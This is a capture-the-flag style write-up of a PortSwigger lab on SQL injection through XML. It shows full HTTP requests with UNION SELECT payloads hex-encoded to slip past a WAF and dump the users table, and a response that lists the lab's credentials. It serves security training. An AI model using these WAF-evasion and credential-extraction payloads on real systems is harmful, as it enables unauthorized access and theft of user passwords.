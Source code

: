 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4185a547-fb59-4522-8043-a5954cf42cc4)


## Solution :

We can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in **JSON or XML** format and use this to query the database.

These different formats may even provide alternative ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often just look for common SQL injection keywords within the request, so you may be able to bypass these filters by simply encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT: 

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter. 


----------------------------

### Identify the vulnerability -

There is a sql injection vulnerability in the `check stock` feature .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/101e4bd9-2379-47c3-812c-ea601d8d222f)

**Request**

```http
POST /product/stock HTTP/1.1
Host: 0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Cookie: session=36761REtmfgIxvy0ZIbkCEGBqqe9OGFG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net/product?productId=12
Content-Type: application/xml
Content-Length: 108
Origin: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>12</productId>
  <storeId>1</storeId>
 </stockCheck>
```
**Response**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bb988b34-bbfc-40fc-b868-46b18cc2b6fb)


There are 2 xml tags where we can inject our sql injection payload ie `productID` & `StoreId`.

When testing sql injection query in `productID`,  we get a response like this

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4e2496e2-3a72-4514-8288-acd314131b65)

When testing sql injection query in `storeID`,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2317ab5d-b0e9-421b-8599-5759f7f00990)

Both show the same **403 Forbidden error**

Why is it getting blocked?

```
A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this. 
```

So we need to bypas WAF and execute our sql payload.

### Bypass WAF - 

We need to Obfuscate out xml payload inorder to bypass WAF. As per lab description we'll use **Hackvertor** for this

> Hackvertor is a **tag-based conversion tool** that supports various escapes and encodings including HTML5 entities, hex, octal, unicode, url encoding etc. 
> It uses **XML-like tags** to specify the type of encoding/conversion used.

NOw select the payload -> Right click -> Extensions -> Hackvertor -> Encode -> Hex entities

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4a369c2a-2994-4aca-bd0b-bccaf97d8fc2)

Now the request containing the highlighted payload is modified 

```http
POST /product/stock HTTP/2
Host: 0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Cookie: session=36761REtmfgIxvy0ZIbkCEGBqqe9OGFG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net/product?productId=12
Content-Type: application/xml
Content-Length: 127
Origin: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>9 </productId>
  <storeId><@hex_entities>1 UNION SELECT null<@/hex_entities></storeId>
 </stockCheck>
```
**Response**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/335a1b47-420a-4c6b-b7fc-88497b0035a5)

So we can now confirm that `storeID` parameter is indeed vulnerable & we bypassed the WAF by encoding our payload with hex entities.

> ProductID parameter doesn't seem to be vulnerable since it didn't return NULL value in response

### Craft payload -

Our payload to retrieve the admin user's credentials from users table,

```sql
UNION SELECT username || '~' || password FROM users
```

After encoding it with hex entities by using hackvertor,

**Request**

```
POST /product/stock HTTP/2
Host: 0a08008903b8f2558169219f00cf00ed.web-security-academy.net
Cookie: session=lr1cmtwOzGbHOxkXSLEUkZKKyVFIP2u4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a08008903b8f2558169219f00cf00ed.web-security-academy.net/product?productId=9
Content-Type: application/xml
Content-Length: 176
Origin: https://0a08008903b8f2558169219f00cf00ed.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>9 </productId>
  <storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>
</storeId>
 </stockCheck>
 ```
 
 
**Response**

```html
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 100

carlos~td28xlz7rzclt1lnzoq1
812 units
wiener~m0dg0ikxf86tq3lmqmit
administrator~wtw26hhafjjaybqu0z88
```
Now login as admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dd5dd87d-4741-4cde-87fc-95654e4d0ed0)



